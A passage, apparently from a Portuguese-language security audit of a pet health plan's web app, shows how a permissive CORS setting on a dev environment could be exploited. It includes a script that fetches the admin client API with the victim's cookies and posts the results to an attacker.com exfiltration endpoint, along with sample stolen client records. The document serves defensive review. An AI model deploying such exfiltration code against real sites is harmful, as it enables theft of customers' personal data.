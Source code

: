#### Como o Hacker Exploraria:

**Cenário - Ambiente Dev Exposto:**

1. **Criar Site Malicioso:**
   ```html
   <!-- http://attacker.com/steal.html -->
   <script>
   // Explorar CORS permissivo
   fetch('https://dev.unipetplan.com.br/admin/api/clients', {
     credentials: 'include'  // Envia cookies
   })
   .then(r => r.json())
   .then(data => {
     // Exfiltrar dados
     fetch('https://attacker.com/exfil', {
       method: 'POST',
       body: JSON.stringify(data)
     });
   });
   </script>
   ```

2. **Vítima Acessa Site Malicioso:**
   ```
   Admin visita http://attacker.com/steal.html
   ↓
   Script faz requisição para dev.unipetplan.com.br
   ↓
   CORS permite (origin null em dev!)
   ↓
   Dados de clientes enviados para attacker.com
   ```

3. **Dados Roubados:**
   ```json
   {
     "clients": [
       {
         "id": "...",
         "full_name": "João Silva",
         "cpf": "123.456.789-00",
         "email": "joao@email.com",
         "phone": "(11) 98765-4321",
         "pets": [...]
       },
       // ... todos os clientes
     ]
   }
   ```

---

## ⚡ ATAQUES DE FORÇA BRUTA
